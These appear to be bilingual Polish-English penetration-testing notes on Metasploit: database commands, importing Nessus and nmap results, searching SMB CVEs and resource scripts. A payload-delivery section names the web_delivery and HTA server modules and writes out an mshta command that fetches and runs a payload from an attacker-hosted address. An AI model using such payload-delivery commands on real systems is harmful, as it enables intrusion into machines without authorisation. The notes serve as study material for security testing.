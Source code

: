 # Baza danych Metasploit

https://www.offsec.com/metasploit-unleashed/using-databases/

```bash
db_status # Show the current database status
db_connect # Connect to an existing database
db_import # Import a scan result file (filetype will be auto-detected)
db_nmap # skan nmap z uzupełnianiem bazy danych znlezionymi informacjami
creds # List all credentials in the database
hosts # List all hosts in the database
services # List all services in the database
jobs # pokaż exploity jakie aktualnie działają, np. tcp listener na danym porcie
kill # ubij job (np. listener, kiedy jakiś port jest zajęty)
```

## import z Nessus

https://www.makeuseof.com/how-to-install-nessus-kali-linux/

`New Scan`...
Wejść w wynik skanu
`Export`>`Nessus`(nie Nessus DB)

```bash
db_import /../report.nessus
vulns -p 445
search cve:2017 name:smb
```

## import z [[nmap]]

```bash
db_import ../raport.xml
```

# Payload Deploy

```bash
# module creates a server which hosts a payload
exploit/multi/script/webdelivery

# hosts an HTML Application (HTA) that when opened will run a payload via Powershell
exploit/windows/misc/hta_server
    (PowerShell)mshta.exe http://10.10.0.2:8080/6Nz7aySfPN.hta # w PS uruchamia aplikację
```

# resource scripts

https://docs.rapid7.com/metasploit/resource-scripts/

```bash
# Save used commands to a resource script
makerc ~/Desktop/myscript.rc
# Running resource scripts from Metasploit Framework
$ ./msfconsole -r <path to resource script>
msf > resource <path to resource script> [param 1] [param 2] [param 3]
```
